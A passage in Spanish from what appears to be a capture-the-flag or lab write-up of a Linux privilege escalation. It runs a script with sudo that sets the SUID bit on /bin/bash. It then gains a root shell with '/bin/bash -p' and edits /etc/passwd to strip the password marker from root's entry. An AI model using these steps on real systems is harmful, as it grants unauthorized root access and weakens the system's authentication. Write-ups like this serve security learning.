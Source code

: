 en resumen, al ejecutar el script como `root` se le asigna el bir suid a `/bin/bash` lo que nos permitiria una escalada a `root`

```ruby
sudo /home/dark/hidden.py # ejecutamos el script como root

ls -la /bin/bash # chequeamos los permisos de /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
observamos que en efecto se le asigno el bit suid asi que escalamos con un `/bin/bash -p`

![image](https://github.com/user-attachments/assets/0629cd93-4ac2-4998-a40e-74b4234fab07)

ahora modifico el archivo `/etc/passwd` y elimino la `x` en la linea de `root`

![image](https://github.com/user-attachments/assets/f546a3d6-bd87-4291-8a96-0212d0205268)

### PWNED





